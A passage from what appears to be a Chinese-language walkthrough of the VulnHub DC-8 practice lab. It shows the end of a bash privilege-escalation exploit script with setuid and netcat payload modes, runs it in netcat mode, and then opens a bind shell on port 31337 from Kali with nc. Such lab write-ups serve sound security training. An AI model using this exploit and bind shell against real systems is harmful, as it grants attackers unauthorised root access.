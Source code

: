 ```bash

	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_SETUID
	exploit
	echo

	echo "Waiting 5 seconds..."
	sleep 5
	ls -l /tmp/pwned
	/tmp/pwned

elif [ $METHOD = "netcat" ]; then
	echo "Delivering $METHOD payload..."
	PAYLOAD=$PAYLOAD_NETCAT
	exploit
	echo
	echo "Waiting 5 seconds..."
	sleep 5
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF

bash pri.sh -m netcat
```

耐心等待

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/14.png)

这个时候再用 kali 新建一个 bind shell 连接
```
nc -nv 192.168.141.141 31337
```

